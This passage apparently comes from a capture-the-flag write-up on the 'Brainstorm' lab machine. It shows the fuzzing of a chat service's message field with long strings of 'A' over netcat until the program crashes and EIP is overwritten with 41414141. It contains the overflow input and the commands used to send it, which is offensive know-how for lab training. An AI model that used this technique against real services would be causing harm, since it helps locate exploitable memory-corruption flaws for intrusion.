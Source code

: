No crash on the username field, try sending 1000 to the message field:

```text
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAA
Thu Feb 18 22:52:01 2021
AAAAAAAAAAAAAAAAAAAA said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAA
Write a message:  ^C
```

No crash on message field with 1000 characters either. We repeat this in 500 char increments until we get to 2500 character, and then we see we have crashed the program and overwritten the buffer:

```text
root@kali:/home/kali/thm/brainstorm# python -c 'print "A" * 2500'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

root@kali:/home/kali/thm/brainstorm# nc -nv 192.168.0.16 9999
(UNKNOWN) [192.168.0.16] 9999 (?) open
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Switching back to our Win7 VM we see Immunity has caught the exception:

![brainstorm-accessviolation](/assets/images/2021-02-18-23-07-36.png)

And looking at the registers we can see EIP has been overwritten with 41414141, which is our AAAA from the large string we passed in:

![brainstorm-registers](/assets/images/2021-02-18-23-07-02.png)
